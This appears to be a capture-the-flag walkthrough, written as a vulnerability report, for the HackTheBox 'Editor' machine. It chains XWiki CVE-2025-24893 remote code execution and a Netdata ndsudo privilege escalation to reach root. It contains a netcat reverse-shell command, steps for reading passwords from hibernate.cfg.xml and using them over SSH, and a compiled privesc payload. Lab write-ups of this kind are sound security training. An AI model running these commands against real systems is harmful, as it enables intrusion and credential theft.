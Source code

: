 

# CVE-2025-24893 — Remote Code Execution

## Description

Editor.htb is vulnerable to unauthenticated remote code execution (RCE).

## Impact

Medium impact: allows access to sensitive information on the server which breaches CIA prinicples of confientiality. Ask mentor if can delete files?

## Likelihood

High: this vulnerablity does not require authentication to exploit.



## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  








## Replication steps 
1. ` ls -l /usr/bin/pkexec /bin/pkexec 2>/dev/null || true`
2. google /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo vulnerablity 
3. Open https://github.com/T1erno/CVE-2024-32019-Netdata-ndsudo-Privilege-Escalation-PoC
4. Copy payload.c and CVE-2024-32019.sh
5. Create nvme file `gcc -static payload.c -o nvme -Wall -Werror -Wpedantic to create` 
6. transfer to ssh shell
7. run sh CVE-2024-32019.sh to get root shell 

 <img src="images/editor_priv_esc.png" class="editors" alt="editor priv esc">





